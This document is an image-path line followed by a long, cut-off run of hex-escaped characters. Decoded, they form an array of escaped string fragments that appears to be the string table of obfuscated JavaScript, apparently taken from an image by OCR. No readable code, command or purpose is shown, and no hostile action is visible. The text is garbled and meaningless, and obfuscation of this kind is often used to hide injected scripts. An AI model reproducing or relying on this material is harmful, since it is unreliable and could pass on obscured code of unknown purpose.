 5C\x4B\x5C\x38\x5C\x39\x5C\x50\x27\x2C\x27\x5C\x34\x5C\x38\x5C\x39\x5C\x64\x5C\x48\x5C\x6C\x5C\x39\x5C\x62\x5C\x65\x5C\x64\x27\x2C\x27\x5C\x41\x5C\x49\x5C\x4B\x5C\x4A\x5C\x38\x5C\x39\x5C\x50\x5C\x49\x5C\x4B\x5C\x4A\x27\x2C\x27\x5C\x77\x5C\x66\x5C\x33\x5C\x63\x27\x2C\x27\x5C\x4A\x5C\x37\x5C\x33\x5C\x34\x5C\x66\x5C\x62\x5C\x77\x5C\x4A\x5C\x61\x5C\x34\x27\x2C\x27\x5C\x6A\x5C\x33\x5C\x61\x5C\x4A\x27\x2C\x27\x5C\x42\x5C\x34\x5C\x36\x5C\x62\x5C\x77\x27\x2C\x27\x5C\x34\x5C\x31\x67\x5C\x34\x5C\x32\x27\x2C\x27\x5C\x4A\x5C\x63\x5C\x33\x5C\x33\x5C\x38\x5C\x37\x5C\x4A\x5C\x6B\x5C\x65\x5C\x37\x27\x2C\x27\x5C\x42\x5C\x34\x5C\x32\x5C\x6C\x5C\x66\x5C\x33\x5C\x37\x5C\x43\x5C\x61\x5C\x36\x27\x2C\x27\x5C\x37\x5C\x47\x5C\x45\x27\x2C\x27\x5C\x48\x5C\x33\x5C\x36\x27\x2C\x27\x5C\x31\x71\x5C\x31\x77\x5C\x31\x69\x5C\x31\x46\x5C\x6B\x27\x2C\x27\x5C\x47\x5C\x41\x5C\x42\x5C\x33\x5C\x48\x5C\x34\x5C\x6C\x5C\x6B\x5C\x65\x5C\x37\x27\x2C\x27\x5C\x63\x5C\x33\x5C\x33\x5C\x38\x27\x2C\x27\x5C\x33\x5C\x64\x5C\x36\x5C\x66\x5C\x56\x27\x2C\x27\x5C\x34\x5C\x61\x5C\x36\x5C\x33\x5C\x66\x5C\x64\x5C\x34\x5C\x36\x5C\x33\x27\x2C\x27\x5C\x66\x5C\x33\x5C\x61\x27\x2C\x27\x5C\x61\x5C\x39\x5C\x64\x5C\x31\x30\x27\x2C\x27\x5C\x36\x5C\x39\x5C\x36\x5C\x61\x5C\x33\x27\x2C\x27\x5C\x62\x5C\x65\x5C\x64\x5C\x36\x5C\x33\x5C\x64\x5C\x36\x27\x2C\x27\x5C\x4B\x5C\x38\x5C\x39\x5C\x50\x5C\x49\x27\x2C\x27\x5C\x6A\x5C\x64\x5C\x34\x5C\x39\x5C\x61\x27\x2C\x27\x5C\x56\x5C\x65\x5C\x43\x5C\x36\x5C\x43\x5C\x6A\x5C\x33\x5C\x4C\x5C\x62\x5C\x65\x27\x2C\x27\x5C\x42\x5C\x4A\x5C\x33\x5C\x42\x5C\x6A\x5C\x33\x5C\x38\x27\x2C\x27\x5C\x4A\x5C\x38\x5C\x33\x5C\x63\x5C\x34\x5C\x43\x5C\x61\x5C\x36\x5C\x4C\x27\x2C\x27\x5C\x39\x5C\x64\x5C\x38\x5C\x33\x5C\x32\x5C\x31\x46\x5C\x63\x27\x2C\x27\x5C\x4B\x5C\x39\x5C\x42\x5C\x48\x27\x2C\x27\x5C\x6A\x5C\x6B\x5C\x4C\x5C\x6A\x5C\x61\x5C\x65\x5C\x48\x5C\x37\x5C\x6B\x5C\x65\x27\x2C\x27\x5C\x4A\x5C\x31\x62\x5C\x31\x62\x5C\x31\x62\x5C\x31\x62\x5C\x31\x62\x5C\x31\x62\x5C\x31\x62\x5C\x31\x62\x5C\x31\x66\x27\x2C\x27\x5C\x45\x5C\x62\x5C\x4A\x5C\x37\x5C\x69\x5C\x69\x5C\x31\x4F\x5C\x31\x64\x5C\x68\x5C\x32\x27\x2C\x27\x5C\x31\x7A\x5C\x32\x74\x5C\x64\x5C\x30\x5C\x4A\x5C\x37\x5C\x35\x5C\x68\x5C\x30\x5C\x30\x27\x2C\x27\x5C\x6C\x5C\x66\x5C\x4A\x5C\x64\x5C\x36\x5C\x77\x5C\x4C\x5C\x6B\x5C\x64\x5C\x48\x27\x2C\x27\x5C\x62\x5C\x34\x5C\x36\x5C\x33\x5C\x48\x5C\x65\x5C\x66\x5C\x56\x27\x2C\x27\x5C\x36\x5C\x33\x5C\x66\x5C\x42\x27\x2C\x27\x5C\x42\x5C\x33\x5C\x64\x5C\x43\x5C\x6C\x5C\x36\x5C\x77\x5C\x43\x5C\x42\x5C\x6A\x27\x2C\x27\x5C\x41\x5C\x49\x5C\x4B\x5C\x38\x5C\x39\x5C\x50\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x27\x2C\x27\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x5C\x63\x27\x2C\x27\x5C\x39\x5C\x61\x5C\x36\x5C\x33\x5C\x66\x5C\x6C\x5C\x61\x5C\x39\x5C\x64\x5C\x31\x30\x27\x2C\x27\x5C\x42\x5C\x6A\x5C\x64\x5C\x34\x5C\x39\x5C\x61\x5C\x6E\x5C\x61\x5C\x34\x5C\x31\x4A\x27\x2C\x27\x5C\x56\x5C\x6C\x5C\x39\x5C\x42\x5C\x48\x5C\x6E\x5C\x6A\x5C\x34\x5C\x62\x5C\x31\x30\x27\x2C\x27\x5C\x33\x5C\x66\x5C\x41\x5C\x6E\x5C\x77\x5C\x66\x5C\x33\x5C\x63\x5C\x47\x5C\x41\x27\x2C\x27\x5C\x41\x5C\x49\x5C\x4B\x5C\x39\x5C\x42\x5C\x48\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x27\x2C\x27\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x5C\x37\x5C\x64\x5C\x39\x5C\x6B\x5C\x6C\x5C\x36\x27\x2C\x27\x5C\x77\x5C\x43\x5C\x42\x5C\x6A\x5C\x64\x5C\x34\x5C\x39\x5C\x61\x5C\x6E\x5C\x61\x27\x2C\x27\x5C\x34\x5C\x31\x4A\x5C\x56\x5C\x6C\x5C\x39\x5C\x42\x5C\x48\x5C\x41\x5C\x6E\x5C\x34\x27\x2C\x27\x5C\x61\x5C\x36\x5C\x47\x5C\x41\x27\x2C\x27\x5C\x41\x5C\x6E\x5C\x37\x5C\x66\x5C\x62\x5C\x47\x5C\x41\x27\x2C\x27\x5C\x41\x5C\x4A\x5C\x49\x5C\x4B\x5C\x4A\x5C\x34\x5C\x49\x5C\x4B\x5C\x4A\x5C\x38\x27\x2C\x27\x5C\x39\x5C\x50\x5C\x49\x5C\x4B\x5C\x4A\x5C\x38\x5C\x39\x5C\x50\x5C\x49\x5C\x4B\x27\x2C\x27\x5C\x47\x5C\x41\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x5C\x36\x5C\x34\x5C\x48\x27\x2C\x27\x5C\x4B\x5C\x4A\x5C\x37\x5C\x6B\x5C\x34\x5C\x64\x5C\x49\x5C\x4B\x5C\x38\x5C\x39\x27\x2C\x27\x5C\x50\x5C\x6E\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x5C\x63\x27\x2C\x27\x5C\x33\x5C\x34\x5C\x36\x5C\x43\x5C\x66\x5C\x33\x5C\x38\x5C\x6C\x5C\x42\x5C\x33\x27\x2C\x27\x5C\x36\x5C\x34\x5C\x41\x5C\x49\x5C\x4B\x5C\x77\x5C\x72\x5C\x6E\x5C\x62\x5C\x61\x27\x2C\x27\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x27\x2C\x27\x5C\x4A\x5C\x38\x5C\x39\x5C\x50\x5C\x49\x5C\x4B\x5C\x38\x5C\x39\x5C\x50\x5C\x6E\x27\x2C\x27\x5C\x62\x5C\x61\x5C\x34\x5C\x37\x5C\x37\x5C\x47\x5C\x41\x5C\x62\x5C\x61\x5C\x33\x27\x2C\x27\x5C\x34\x5C\x66\x5C\x41\x5C\x4A\x5C\x49\x5C\x4B\x5C\x4A\x5C\x38\x5C\x39\x5C\x50\x27\x2C\x27\x5C\x4B\x5C\x4A\x5C\x38\x5C\x39\x5C\x50\x5C\x49\x27\x2C\x27\x5C\x4C\x5C\x55\x5C\x34\x5C\x39\x5C\x36\x27\x2C\x27\x5C\x66\x5C\x33\x5C\x42\x5C\x65\x5C\x50\x5C\x33\x27\x2C\x27\x5C\x4C\x5C\x42\x5C\x33\x5C\x48\x5C\x34\x5C\x6C\x5C\x62\x5C\x65\x5C\x64\x5C\x36\x27\x2C\x27\x5C\x34\x5C\x39\x5C\x64\x5C\x33\x5C\x66\x27\x2C\x27\x5C\x77\x5C\x36\x5C\x42\x5C\x61\x27\x2C\x27\x5C\x4C\x5C\x42\x5C\x33\x5C\x48\x5C\x34\x5C\x6C\x5C\x42\x5C\x33\x5C\x64\x5C\x43\x27\x2C\x27\x5C\x6C\x5C\x36\x5C\x77\x5C\x43\x5C\x42\x5C\x6A\x5C\x6E\x5C\x34\x27\x2C\x27\x5C\x4A\x5C\x37\x5C\x33\x5C\x34\x5C\x66\x5C\x62\x5C\x77\x5C\x4A\x27\x2C\x27\x5C\x36\x5C\x37\x5C\x4A\x5C\x38\x5C\x33\x5C\x63\x5C\x34\x5C\x43\x5C\x61\x5C\x36\x27\x2C\x27\x5C\x34\x6C\x5C\x34\x5C\x61\x5C\x36\x5C\x47\x5C\x31\x67\x5C\x37\x5C\x65\x5C\x64\x5C\x6C\x27\x2C\x27\x5C\x39\x5C\x64\x5C\x6C\x5C\x37\x5C\x62\x5C\x66\x5C\x39\x5C\x6B\x5C\x36\x5C\x34\x56\x27\x2C\x27\x5C\x31\x67\x5C\x37\x5C\x65\x5C\x64\x5C\x6B\x27\x2C\x27\x5C\x36\x5C\x37\x5C\x41\x5C\x49\x27\x2C\x27\x5C\x42\x5C\x33\x5C\x38\x5C\x39\x5C\x34\x5C\x31\x68\x5C\x36\x5C\x77\x5C\x43\x5C\x42\x27\x2C\x27\x5C\x4A\x5C\x55\x5C\x68\x5C\x7A\x5C\x30\x27\x2C\x27\x5C\x39\x5C\x42\x5C\x48\x5C\x33\x56\x5C\x63\x5C\x39\x5C\x66\x5C\x37\x5C\x36\x27\x2C\x27\x5C\x36\x5C\x4C\x5C\x62\x5C\x65\x5C\x42\x5C\x4A\x5C\x6C\x5C\x31\x69\x5C\x55\x5C\x7A\x27\x2C\x27\x5C\x31\x74\x5C\x31\x71\x5C\x43\x5C\x50\x5C\x55\x5C\x65\x
